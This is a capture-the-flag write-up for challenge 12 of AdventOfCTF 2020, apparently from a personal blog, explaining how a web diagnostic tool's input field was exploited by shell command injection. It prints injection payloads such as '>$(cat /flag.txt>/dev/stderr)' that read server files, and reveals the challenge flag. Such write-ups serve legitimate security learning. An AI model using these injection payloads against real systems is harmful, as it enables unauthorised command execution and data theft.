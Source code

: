 +++
author = "Maik de Kruif"
title = "Challenge 12 - AdventOfCTF"
date = 2020-12-14T15:55:21+01:00
description = "A writeup for challenge 12 of AdventOfCTF."
cover = "img/adventofctf/2020/af3424cd215a6459494ae07eab33cb35.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1200

## Description

To ensure a good Christmas we implemented some diagnostic tools. This one checks that the time to a destination is within an acceptable range. The flag is in /flag.txt.

Visit <https://12.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website we're greeted with an input field and a check button. Let's enter some text in the input and press the check button. Initially, nothing happens but after a few seconds we get a result: `1607956922.306628 Destination check was OK`. As the page didn't reload there is probably some javascript in play. Indeed there is, when opening the source, we find a script tag with the following javascript function:

```js
function send() {
  let place = $("#place")[0].value;
  if (place.length > 0) {
    $.post("/", { place: place }, function (data) {
      $("#result")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
  return false;
}
```

If we analyze this function a bit we find that it executes a `POST` request to `/` and puts the result in an HTML element with this selector: `'#result'`.

Let's try some more inputs. Just plain text doesn't seem to change the result much besides the number before "Destination check". If we, however, enter a quote (`"`), we get a different result back:

```text
Something happened: /bin/bash: -c: line 0: unexpected EOF while looking for matching `"'
/bin/bash: -c: line 1: syntax error: unexpected end of file
```

And inputting a backtick (`) returns this error:

```text
Something happened: BusyBox v1.31.1 () multi-call binary.

Usage: nslookup [-type=QUERY_TYPE] [-debug] HOST [DNS_SERVER]

Query DNS about HOST

QUERY_TYPE: soa,ns,a,aaaa,cname,mx,txt,ptr,any
```

### nslookup

I spend quite some time trying to find a way to get out of this command but I could not get anything to work so I took a break.

### Redirection

When I came back, I tried inputting a redirect character (`>`) and it gave a result!

## Getting some output

After entering a redirection character (`>`) we get the following result:

```text
Something happened: /bin/bash: -c: line 0: syntax error near unexpected token `newline'
/bin/bash: -c: line 0: `./check &gt;'
```

This means we can redirect output and thus get arbitrary code execution by putting a sub-command as the output like so:

```bash
> $(ls)
```

But entering this gave an error:

```text
Something happened: /bin/bash: $(ls): ambiguous redirect
```

This means that, while it does work, it does not work directly as the output isn't valid. If we, however, put a sub-command inside a sub-command (`> $($(ls))`), the inner output will be printed:

```text
Something happened: /bin/bash: app.py: command not found
/bin/bash: $($(ls)): ambiguous redirect
```

As we can see, there seems to be an `app.py` file but we don't care about it now. Let's try to cat the flag from the location specified in the challenge description (`/flag.txt`) by entering the following input: `>$($(cat /flag.txt))`. This return the following result:

```text
Something happened: /bin/bash: Congratulations,: command not found
/bin/bash: $($(cat /flag.txt)): ambiguous redirect
```

As we can see, it did read the file. Sadly, however, it only returned the first line...

At this point, I didn't really know what to do but just as I was about to take another break, [@credmp](https://twitter.com/credmp) posted a hint on Twitter. It said the following: "Hint: all error messages are printed on stderr.".

### Redirecting the output

After reading this tweet, I tried the following input: `>$(cat /flag.txt>/dev/stderr)` and it immediately worked! I felt pretty stupid for not having thought about that 😐.

## Solution

So redirecting the output to `stderr` worked and we got the flag: `NOVI{we_are_halfway_to_christmas!}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#12-13).

